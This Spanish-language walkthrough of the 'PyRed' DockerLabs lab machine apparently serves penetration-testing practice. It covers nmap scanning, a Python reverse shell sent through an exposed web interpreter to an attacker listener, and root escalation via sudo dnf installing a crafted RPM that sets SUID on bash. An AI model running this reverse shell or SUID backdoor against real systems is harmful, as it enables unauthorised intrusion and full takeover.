 # PyRed 
![pyred](https://github.com/TBrux/DOCKERLABS/assets/168732212/581d6970-5f9f-4693-915d-8e2cd06b14cb)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT     STATE SERVICE REASON
5000/tcp open  upnp    syn-ack ttl 64
```

Como tenemos abierto el puerto 5000, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p5000 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p5000`: Escaneo de los puertos 5000.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```
PORT     STATE SERVICE REASON         VERSION
5000/tcp open  upnp?   syn-ack ttl 64
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.2 Python/3.12.2
```
Vamos a ver que encontramos en el puerto 5000 y vemos que es una página con lo que parece un intérprete de **Python**.
![python](https://github.com/TBrux/DOCKERLABS/assets/168732212/62e5c69b-3c12-446f-b82e-420d76ab694a)

## Explotación.

Lo siguiente es ponernos a la escucha en un puerto en nuestro equipo y enviarnos una reverse shell desde el interprete de **Pyhton**.
```
❯ nc -lvnp 4443
listening on [any] 4443 ...
```
```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.17.0.1", 4443))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```
Una vez lo lanzamos ya establemos la reverse shell con el usuario primpi.
```
❯ nc -lvnp 4443
listening on [any] 4443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 33108
sh: cannot set terminal process group (1): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.2$ whoami
whoami
primpi
sh-5.2$ 
````
## Escalada de privilegios.
Comprobamos binarios y archivos que podemos lanzar como root u otro usuario con más privilegios.
```bash
sudo -l
```
```
sh-5.2$ sudo -l
sudo -l
Matching Defaults entries for primpi on c35c7f5e90f9:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User primpi may run the following commands on c35c7f5e90f9:
    (ALL) NOPASSWD: /usr/bin/dnf
```
Vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/dpkg/) y vemos que podemos ver los pasos para crear un archivo malicioso que después subiremo a la máquina lo ejecutaremos con **/usr/bin/dnf**.
```bash
❯ TF=$(mktemp -d)
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
Created package {:path=>"x-1.0-1.noarch.rpm"}
```
Hemos creardo el archivo **x-1.0-1.noarch.rpm** que ahora lo subiremos a la máquina victima creando un servidor **http** con python en el directorio donde tenemos nuestro archivo y con **curl** lo descargamos en la máquina victima en la carpeta


```bash
python3 -m http.server 8080
```
```bash
curl 172.17.0.1/x-1.0-1.noarch.rpm -o noarch.rpm
```
Una vez ya lo tenemos en la máquina víctima, lo instalamos con el binario **/usr/bin/dnf** y así cambiamos el SUID de bash y podemos ejecutarla comor **root**.
```bash
sudo -u root /usr/bin/dnf install -y noarch.rpm
```
```bash
bash -p
```
```
sh-5.2$ bash -p
whoami
root
```

